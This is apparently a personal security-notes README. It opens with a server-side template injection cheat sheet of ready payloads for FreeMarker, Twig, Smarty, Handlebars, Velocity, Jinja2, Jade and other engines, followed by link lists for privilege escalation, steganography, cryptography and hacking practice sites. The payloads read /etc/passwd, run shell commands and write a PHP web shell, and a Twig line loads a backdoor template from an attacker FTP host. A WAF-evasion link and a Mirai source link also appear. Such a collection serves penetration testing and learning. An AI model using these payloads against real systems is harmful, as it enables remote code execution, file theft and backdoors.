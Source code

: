 Intel (insert better title here)
================

- [Cheatsheets](#Cheatsheets)
- [Enumeration](#Enumeration)
- [Privelege Escalation](#Privilege-Escalation)
- [Steganography](#Steganography)
- [Cryptography](#Cryptography)
- [Reverse Engineering](#Reverse-Engineering)
- [Wordlists](#Wordlists)
- [Learn To](#Learn-To)

----------------------------------

# Cheatsheets

## Server Side Template Injection (SSTI)

### Polyglot:
```
${{<%[%'"}}%\
```

### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

# Enumeration

https://github.com/darkoperator/dnsrecon

# Privilege Escalation

## Windows

### Living off the Land
https://lolbas-project.github.io/

## Linux

### Living off the Land

https://gtfobins.github.io/



# Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

# Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

# Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

# Wordlists

https://wiki.skullsecurity.org/Passwords

# Learn To

## Hack
https://app.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1

## Code
http://www.codecraftgame.org/
https://codingbat.com/

# Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

